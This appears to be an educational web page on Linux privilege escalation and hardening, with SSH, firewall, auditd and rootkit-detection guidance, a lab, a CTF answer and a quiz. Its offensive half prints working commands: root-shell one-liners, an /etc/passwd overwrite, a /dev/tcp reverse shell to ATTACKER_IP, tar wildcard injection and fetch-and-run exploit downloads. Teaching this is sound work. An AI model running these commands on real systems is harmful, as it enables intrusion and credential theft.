

# Linux Security & Hardening

Linux runs the majority of the world's servers, containers, and cloud infrastructure. If you compromise a web application, the next step is almost always privilege escalation on a Linux system. If you defend infrastructure, hardening Linux is your most impactful activity. This page covers both sides: how attackers escalate from low-privilege shell to root, and how defenders lock down Linux systems to prevent it.

**Related**: [Cybersecurity Overview](/cybersecurity/) | [Network Attacks](/cybersecurity/network-attacks) | [Incident Response](/cybersecurity/incident-response-forensics) | [Security Tools](/cybersecurity/security-tools)

---

## Linux Privilege Escalation Methodology

After gaining initial access (usually as `www-data`, `apache`, or another low-privilege service account), attackers follow a systematic process to escalate to root.



### Quick Enumeration Commands

```bash
# Who am I? What groups?
id
whoami
groups

# What OS and kernel?
uname -a
cat /etc/os-release
cat /proc/version

# What users exist?
cat /etc/passwd | grep -v nologin | grep -v false
cat /etc/shadow 2>/dev/null  # readable = jackpot

# Sudo permissions — what can I run as root?
sudo -l

# SUID binaries — executables that run as owner (often root)
find / -perm -4000 -type f 2>/dev/null

# SGID binaries
find / -perm -2000 -type f 2>/dev/null

# Capabilities — fine-grained privileges
getcap -r / 2>/dev/null

# Writable files/directories
find / -writable -type f 2>/dev/null | grep -v proc
find / -writable -type d 2>/dev/null | grep -v proc

# Cron jobs
cat /etc/crontab
ls -la /etc/cron.*
crontab -l
cat /var/spool/cron/crontabs/* 2>/dev/null

# Running processes
ps aux
ps aux | grep root

# Network connections
ss -tlnp
netstat -tlnp 2>/dev/null

# Installed packages with versions
dpkg -l 2>/dev/null || rpm -qa 2>/dev/null

# Environment variables (may contain passwords)
env
cat /proc/*/environ 2>/dev/null

# SSH keys
find / -name "id_rsa" -o -name "id_ed25519" -o -name "authorized_keys" 2>/dev/null

# History files
cat ~/.bash_history
cat ~/.mysql_history 2>/dev/null
cat ~/.python_history 2>/dev/null
```

---

## SUID/SGID Abuse

When a binary has the SUID bit set, it runs with the file owner's permissions (usually root) regardless of who executes it. Misconfigured SUID binaries are one of the most common privilege escalation vectors.

```bash
# Find all SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Check against GTFOBins for known escalation paths
# https://gtfobins.github.io/

# Example: SUID on /usr/bin/find
find . -exec /bin/sh -p \;

# Example: SUID on /usr/bin/vim
vim -c ':!/bin/sh'

# Example: SUID on /usr/bin/python3
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# Example: SUID on /usr/bin/env
env /bin/sh -p

# Example: SUID on /usr/bin/nmap (older versions with --interactive)
nmap --interactive
!sh

# Example: SUID on /usr/bin/cp — overwrite /etc/passwd
# Generate password hash
openssl passwd -1 -salt evil hacked
# Create new passwd entry
echo 'evil:$1$evil$xxxxxxxx:0:0:root:/root:/bin/bash' > /tmp/evil_passwd
# Copy to overwrite
cp /tmp/evil_passwd /etc/passwd
```

::: warning GTFOBins
Always check [GTFOBins](https://gtfobins.github.io/) when you find unusual SUID binaries. It is a curated list of Unix binaries that can be exploited to bypass security restrictions. Bookmark it — you will use it constantly.
:::

---

## Linux Capabilities Abuse

Capabilities provide fine-grained control over what a binary can do without full root privileges. Misconfigured capabilities can be as dangerous as SUID.

```bash
# Find binaries with capabilities
getcap -r / 2>/dev/null

# Dangerous capabilities:
# cap_setuid — can change UID (become root)
# cap_dac_override — bypass file permission checks
# cap_dac_read_search — read any file
# cap_net_raw — create raw sockets (packet sniffing)
# cap_sys_admin — mount, namespace operations
# cap_sys_ptrace — debug processes, inject code

# Example: python3 with cap_setuid
# /usr/bin/python3 = cap_setuid+ep
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# Example: tar with cap_dac_read_search
# Can read any file regardless of permissions
tar czf /tmp/shadow.tar.gz /etc/shadow
tar xzf /tmp/shadow.tar.gz -C /tmp/
cat /tmp/etc/shadow

# Example: tcpdump with cap_net_raw
# Can sniff network traffic for credentials
tcpdump -i eth0 -A port 80 | grep -i "password\|user"
```

---

## Cron Job Exploitation

Cron jobs run as the user who owns them. If a cron job runs as root and references a writable script or path, you can escalate.

```bash
# Find cron jobs
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.daily/ /etc/cron.hourly/

# Look for writable scripts called by cron
# If /opt/backup.sh runs as root and is world-writable:
echo '/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /opt/backup.sh

# PATH hijacking in cron
# If crontab has: PATH=/usr/local/sbin:/usr/local/bin
# And job runs: backup.sh (without full path)
# And /usr/local/sbin is writable:
echo '#!/bin/bash' > /usr/local/sbin/backup.sh
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /usr/local/sbin/backup.sh
chmod +x /usr/local/sbin/backup.sh
# Wait for cron to execute, then:
/tmp/rootbash -p

# Wildcard injection
# If cron runs: tar czf /backup/archive.tar.gz *
# In a writable directory, create:
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' > shell.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
# tar will interpret the filenames as flags
```

::: tip pspy — Monitor Cron Without Root
`pspy` monitors Linux processes without root access. Run it and wait to see what cron jobs execute:
```bash
# Download and run pspy
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
./pspy64
```
:::

---

## Kernel Exploits

When all other methods fail, kernel exploits are the last resort. They target vulnerabilities in the Linux kernel itself.

```bash
# Check kernel version
uname -r
cat /proc/version

# Use linux-exploit-suggester
./linux-exploit-suggester.sh

# Notable kernel exploits:
# Dirty COW (CVE-2016-5195) — Linux < 4.8.3
# Dirty Pipe (CVE-2022-0847) — Linux 5.8 to 5.16.11
# PwnKit (CVE-2021-4034) — polkit pkexec, most Linux distros
# GameOver(lay) (CVE-2023-2640) — Ubuntu OverlayFS

# Example: PwnKit (pkexec)
# Affects almost all Linux distributions with polkit installed
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x PwnKit
./PwnKit  # instant root
```

::: danger Kernel Exploits in Production
Kernel exploits can crash the system. In a real penetration test, always get explicit approval before running kernel exploits, and never run them against production systems without understanding the risk.
:::

---

## Automated Enumeration Tools

| Tool | Purpose | Usage |
|------|---------|-------|
| **LinPEAS** | Comprehensive Linux enumeration | `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh \| sh` |
| **linux-exploit-suggester** | Suggest kernel exploits | `./linux-exploit-suggester.sh` |
| **linux-smart-enumeration** | Detailed enumeration with verbosity levels | `./lse.sh -l 2` |
| **pspy** | Monitor processes without root | `./pspy64` |
| **LinEnum** | Legacy but still useful | `./LinEnum.sh -t` |

```bash
# LinPEAS — the gold standard
# Transfer to target and run
# On attacker machine:
python3 -m http.server 8000
# On target:
curl http://ATTACKER_IP:8000/linpeas.sh | sh | tee linpeas_output.txt

# Color-coded output:
# RED/YELLOW = almost certainly exploitable
# RED = highly likely exploitable
# CYAN = users with console
# GREEN = common but worth checking
```

---

## SSH Hardening

SSH is the primary remote access method for Linux. A misconfigured SSH server is an open door.

```bash
# /etc/ssh/sshd_config — hardened configuration

# Disable root login
PermitRootLogin no

# Disable password authentication (key-only)
PasswordAuthentication no
ChallengeResponseAuthentication no

# Use only SSH protocol 2
Protocol 2

# Limit authentication attempts
MaxAuthTries 3

# Set idle timeout (5 min)
ClientAliveInterval 300
ClientAliveCountMax 0

# Restrict users who can SSH
AllowUsers deploy admin
# Or restrict by group
AllowGroups sshusers

# Use strong key exchange and ciphers
KexAlgorithms curve25519-sha256,curve25519-sha256@libssh.org
Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com,aes128-gcm@openssh.com
MACs hmac-sha2-256-etm@openssh.com,hmac-sha2-512-etm@openssh.com

# Disable X11 forwarding
X11Forwarding no

# Disable agent forwarding unless needed
AllowAgentForwarding no

# Log level
LogLevel VERBOSE

# Disable empty passwords
PermitEmptyPasswords no
```

```bash
# Generate strong SSH keys
ssh-keygen -t ed25519 -C "user@hostname"

# Or RSA with 4096 bits minimum
ssh-keygen -t rsa -b 4096 -C "user@hostname"

# Test SSH configuration
sshd -t

# Restart SSH after changes
sudo systemctl restart sshd
```

---

## Firewall Configuration

### iptables

```bash
# Default deny policy
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# Allow loopback
iptables -A INPUT -i lo -j ACCEPT

# Allow established connections
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# Allow SSH from specific IP
iptables -A INPUT -p tcp --dport 22 -s 10.0.0.0/24 -j ACCEPT

# Allow HTTP/HTTPS
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# Rate limit SSH connections
iptables -A INPUT -p tcp --dport 22 -m state --state NEW \
  -m recent --set --name SSH
iptables -A INPUT -p tcp --dport 22 -m state --state NEW \
  -m recent --update --seconds 60 --hitcount 4 --name SSH -j DROP

# Log dropped packets
iptables -A INPUT -j LOG --log-prefix "DROPPED: " --log-level 4
iptables -A INPUT -j DROP

# Save rules
iptables-save > /etc/iptables/rules.v4
```

### nftables (modern replacement)

```bash
# /etc/nftables.conf
table inet filter {
    chain input {
        type filter hook input priority 0; policy drop;

        # Allow loopback
        iif "lo" accept

        # Allow established
        ct state established,related accept

        # Allow SSH from management network
        tcp dport 22 ip saddr 10.0.0.0/24 accept

        # Allow HTTP/HTTPS
        tcp dport { 80, 443 } accept

        # Rate limit SSH
        tcp dport 22 ct state new limit rate 3/minute accept

        # Log and drop everything else
        log prefix "DROPPED: " drop
    }

    chain forward {
        type filter hook forward priority 0; policy drop;
    }

    chain output {
        type filter hook output priority 0; policy accept;
    }
}
```

---

## SELinux and AppArmor

Mandatory Access Control (MAC) systems restrict what processes can do even if they run as root.

### SELinux Quick Reference

```bash
# Check SELinux status
getenforce          # Enforcing, Permissive, or Disabled
sestatus            # Detailed status

# Set mode temporarily
setenforce 0        # Permissive (logging only)
setenforce 1        # Enforcing

# View file context
ls -Z /var/www/html/

# Restore default context
restorecon -Rv /var/www/html/

# Allow httpd to connect to network
setsebool -P httpd_can_network_connect on

# View denied actions
ausearch -m AVC -ts recent
audit2why < /var/log/audit/audit.log
```

### AppArmor Quick Reference

```bash
# Check AppArmor status
sudo aa-status

# View profile for a service
cat /etc/apparmor.d/usr.sbin.nginx

# Set profile to complain mode (log but don't enforce)
sudo aa-complain /etc/apparmor.d/usr.sbin.nginx

# Set profile to enforce mode
sudo aa-enforce /etc/apparmor.d/usr.sbin.nginx

# Generate profile for a new application
sudo aa-genprof /usr/local/bin/myapp
```

---

## File Permissions and ACLs

```bash
# The permission model
# rwxrwxrwx = owner|group|others
# 7 = rwx, 6 = rw-, 5 = r-x, 4 = r--, 0 = ---

# Find world-writable files (potential hijack targets)
find / -perm -o=w -type f 2>/dev/null | grep -v proc

# Find files with no owner (orphaned — suspicious)
find / -nouser -o -nogroup 2>/dev/null

# Set proper permissions
chmod 600 /etc/shadow          # Only root can read
chmod 644 /etc/passwd          # Everyone reads, root writes
chmod 700 /root                # Only root accesses
chmod 755 /usr/local/bin/*     # Execute but not modify

# Remove SUID from unnecessary binaries
chmod u-s /usr/bin/suspicious_binary

# Use ACLs for fine-grained control
setfacl -m u:deploy:rx /opt/app/
getfacl /opt/app/

# Immutable flag — even root cannot modify
chattr +i /etc/critical_config
lsattr /etc/critical_config    # Shows '----i---------'
```

---

## Auditd — System Auditing

Auditd provides detailed logging of system calls, file access, and user actions. Essential for forensics and compliance.

```bash
# Install auditd
sudo apt install auditd audispd-plugins

# Key audit rules — add to /etc/audit/rules.d/audit.rules

# Monitor changes to user/group files
-w /etc/passwd -p wa -k identity
-w /etc/shadow -p wa -k identity
-w /etc/group -p wa -k identity
-w /etc/gshadow -p wa -k identity
-w /etc/sudoers -p wa -k sudoers

# Monitor SSH configuration changes
-w /etc/ssh/sshd_config -p wa -k sshd_config

# Monitor login events
-w /var/log/faillog -p wa -k logins
-w /var/log/lastlog -p wa -k logins
-w /var/log/wtmp -p wa -k logins

# Monitor cron changes
-w /etc/crontab -p wa -k cron
-w /etc/cron.d/ -p wa -k cron
-w /var/spool/cron/ -p wa -k cron

# Monitor privilege escalation
-a always,exit -F arch=b64 -S execve -C uid!=euid -k privilege_escalation
-a always,exit -F arch=b64 -S setuid -S setgid -k privilege_change

# Search audit logs
ausearch -k identity -ts today
ausearch -k privilege_escalation -i

# Generate reports
aureport --summary
aureport --auth --summary
aureport --login --summary
```

---

## Rootkit Detection

Rootkits modify the OS to hide an attacker's presence. Detection tools compare system binaries and kernel structures against known-good baselines.

```bash
# rkhunter — Rootkit Hunter
sudo apt install rkhunter

# Update database
sudo rkhunter --update

# Run scan
sudo rkhunter --check --skip-keypress

# Check specific areas
sudo rkhunter --check --enable rootkits,trojans,os_specific

# chkrootkit
sudo apt install chkrootkit
sudo chkrootkit

# AIDE — file integrity monitoring
sudo apt install aide
sudo aideinit                     # Create baseline database
sudo aide --check                 # Check for changes
sudo aide --update                # Update after legitimate changes
```

::: tip Defense in Depth
No single tool catches everything. Run rkhunter AND chkrootkit, set up AIDE for file integrity monitoring, and use auditd for real-time alerting. Layer your defenses.
:::

---

## Linux Hardening Checklist

| Category | Action | Command/Config |
|----------|--------|---------------|
| **Users** | Disable root login via SSH | `PermitRootLogin no` in sshd_config |
| **Users** | Remove unnecessary users | `userdel olduser` |
| **Users** | Set password expiry | `chage -M 90 username` |
| **Permissions** | Remove unnecessary SUID bits | `chmod u-s /path/to/binary` |
| **Permissions** | Set umask to 027 | Add `umask 027` to `/etc/profile` |
| **Network** | Disable IPv6 if unused | `net.ipv6.conf.all.disable_ipv6 = 1` in sysctl |
| **Network** | Enable SYN cookies | `net.ipv4.tcp_syncookies = 1` |
| **Network** | Disable IP forwarding | `net.ipv4.ip_forward = 0` |
| **Kernel** | Restrict dmesg | `kernel.dmesg_restrict = 1` |
| **Kernel** | Restrict ptrace | `kernel.yama.ptrace_scope = 1` |
| **Kernel** | Enable ASLR | `kernel.randomize_va_space = 2` |
| **Services** | Disable unused services | `systemctl disable --now service_name` |
| **Logging** | Enable auditd | `systemctl enable --now auditd` |
| **Updates** | Enable automatic security updates | `apt install unattended-upgrades` |

---

## Further Reading

- [Cybersecurity Overview](/cybersecurity/) — career paths and learning roadmap
- [Network Attacks & Defense](/cybersecurity/network-attacks) — network-level attack vectors
- [Incident Response & Forensics](/cybersecurity/incident-response-forensics) — what to do when Linux is compromised
- [Reverse Engineering](/cybersecurity/reverse-engineering) — analyzing malicious binaries found on compromised systems
- [Security Tools Encyclopedia](/cybersecurity/security-tools) — comprehensive tool reference

---

::: tip Key Takeaway
- Linux privilege escalation follows a systematic process: enumerate SUID binaries, capabilities, cron jobs, writable paths, and kernel version before exploiting anything
- GTFOBins is your cheat sheet for SUID abuse — bookmark it and check every unusual SUID binary you find
- Defense is layered: SSH hardening, firewall rules, SELinux/AppArmor, auditd, and rootkit detection together create a hardened system that resists attack
:::

::: details Hands-On Lab
**Lab: Linux Privilege Escalation Practice**

1. Deploy a vulnerable Linux VM (TryHackMe "Linux PrivEsc" room or VulnHub "Lin.Security")
2. Gain an initial low-privilege shell (e.g., as `www-data`)
3. Run manual enumeration: `id`, `sudo -l`, `find / -perm -4000`, `getcap -r /`, `cat /etc/crontab`
4. Transfer and run LinPEAS — compare its output with your manual findings
5. Identify at least 3 different privilege escalation vectors (SUID, cron, capability)
6. Exploit each one to get a root shell
7. After rooting the box, harden it: remove unnecessary SUID bits, fix cron permissions, configure iptables with a default deny policy, and enable auditd
:::

::: details CTF Challenge
**Challenge: The Misconfigured Server**

You have SSH access to a Linux server as user `webdev`. The admin left a backup script that runs every 5 minutes. Find the privilege escalation path and read the flag in `/root/flag.txt`.

**Hints:**
1. Check what cron jobs run as root
2. The backup script uses a relative path for one of its commands
3. The PATH in the crontab includes a writable directory

::: details Answer
Run `cat /etc/crontab` to find a root cron job running `backup.sh` without a full path. Check the `PATH` variable in the crontab — it includes `/usr/local/sbin` which is writable by `webdev`. Create a malicious `backup.sh` in `/usr/local/sbin/` that copies `/root/flag.txt` to `/tmp/` with world-readable permissions. Wait for the cron job to execute. The flag is `CTF{cron_path_hijack_is_too_easy}`.
:::
:::

::: warning Common Misconceptions
- **"Running as root is fine on internal servers"** — Any service compromise gives the attacker full system access. Always run services as dedicated low-privilege users.
- **"SUID binaries are always dangerous"** — Standard SUID binaries like `passwd`, `ping`, and `su` are designed to be safe. The danger is custom or unnecessary SUID binaries that can be abused via GTFOBins.
- **"Kernel exploits are the go-to escalation method"** — Kernel exploits should be a last resort. They can crash the system and are noisy. Misconfigurations (SUID, cron, capabilities) are more reliable and stealthy.
- **"SELinux should be disabled because it causes problems"** — SELinux in enforcing mode is one of the strongest defenses against privilege escalation. If it is "causing problems," the real issue is misconfigured policies.
- **"Automated tools like LinPEAS find everything"** — Automated tools miss context-dependent escalation paths like password reuse, application-specific logic, and chained vulnerabilities. Manual enumeration is still essential.
:::

::: details Quiz
**1. What does the SUID bit do when set on an executable?**

a) Allows any user to delete the file
b) Runs the executable with the file owner's permissions
c) Encrypts the executable
d) Prevents the file from being modified

::: details Answer
b) The SUID (Set User ID) bit causes the executable to run with the permissions of the file owner (often root), regardless of who executes it.
:::

**2. Which Linux capability allows a binary to change its UID to root?**

a) cap_net_raw
b) cap_dac_override
c) cap_setuid
d) cap_sys_admin

::: details Answer
c) cap_setuid allows a process to change its UID, enabling it to become root. If a binary like Python has this capability, you can escalate with `os.setuid(0)`.
:::

**3. What command finds all world-writable files on a Linux system?**

a) `find / -perm -4000 -type f`
b) `find / -writable -type f`
c) `find / -perm -o=w -type f`
d) Both b and c

::: details Answer
d) Both `find / -writable -type f` and `find / -perm -o=w -type f` find world-writable files. The `-writable` flag checks effective permissions while `-perm -o=w` checks the permission bits directly.
:::

**4. What is the primary purpose of the `chattr +i` command?**

a) Make a file invisible
b) Make a file immutable (even root cannot modify it)
c) Change the file's owner to root
d) Encrypt the file

::: details Answer
b) `chattr +i` sets the immutable flag. Even root cannot modify, delete, or rename the file until the flag is removed with `chattr -i`.
:::

**5. Which SSH configuration directive is most critical for preventing brute force attacks?**

a) `X11Forwarding no`
b) `PasswordAuthentication no`
c) `Protocol 2`
d) `LogLevel VERBOSE`

::: details Answer
b) `PasswordAuthentication no` forces key-based authentication only, making brute force attacks against SSH passwords impossible. This single setting eliminates the most common SSH attack vector.
:::
:::

> **One-Liner Summary:** Linux privilege escalation is a puzzle of misconfigurations — the attacker who enumerates best, escalates first.
